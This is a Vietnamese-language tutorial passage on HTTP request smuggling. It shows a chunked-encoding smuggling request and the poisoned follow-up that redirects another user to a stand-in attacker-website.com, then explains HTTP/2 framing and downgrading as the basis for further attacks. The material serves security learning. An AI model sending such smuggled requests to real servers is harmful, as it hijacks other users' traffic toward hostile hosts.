 - Hành vi này thường được coi là vô hại, nhưng nó có thể bị khai thác trong một cuộc tấn công HTTP request smuggling để chuyển hướng người dùng khác đến miền bên ngoài. Ví dụ:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

- Smuggled request sẽ kích hoạt chuyển hướng đến trang web của kẻ tấn công, điều này sẽ ảnh hưởng đến yêu cầu của người dùng tiếp theo được máy chủ phụ trợ xử lý. Ví dụ:

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

## **`HTTP/2 request smuggling`**

### **HTTP/2 message length**

- request smuggling về cơ bản là khai thác sự khác biệt giữa cách các máy chủ khác nhau diễn giải độ dài của yêu cầu. HTTP/2 giới thiệu một cơ chế duy nhất, mạnh mẽ để thực hiện điều này, cơ chế này từ lâu đã được cho là giúp nó vốn dĩ miễn nhiễm với yêu cầu buôn lậu.

- Mặc dù bạn sẽ không thấy điều này trong Burp, nhưng các thông báo HTTP/2 được gửi qua dây dưới dạng một loạt các "khung" riêng biệt. Trước mỗi khung hình là một trường độ dài rõ ràng, trường này cho máy chủ biết chính xác có bao nhiêu byte cần đọc. Do đó, độ dài của yêu cầu là tổng độ dài khung hình của nó.

- Về lý thuyết, cơ chế này có nghĩa là kẻ tấn công không có cơ hội đưa ra sự mơ hồ cần thiết để request smuggling, miễn là trang web sử dụng HTTP/2 từ đầu đến cuối. Tuy nhiên, trong thực tế, điều này thường không xảy ra do thực tiễn hạ cấp HTTP/2 phổ biến nhưng nguy hiểm.

### **`HTTP/2 downgrading`**

- HTTP/2 downgrading là quá trình viết lại các yêu cầu HTTP/2 bằng cách sử dụng cú pháp HTTP/1 để tạo ra một yêu cầu HTTP/1 tương đương. Các máy chủ web và proxy đảo ngược thường làm điều này để cung cấp hỗ trợ HTTP/2 cho các máy khách trong khi giao tiếp với các máy chủ back-end chỉ nói HTTP/1. Thực tiễn này là điều kiện tiên quyết cho nhiều cuộc tấn công được đề cập trong phần này.

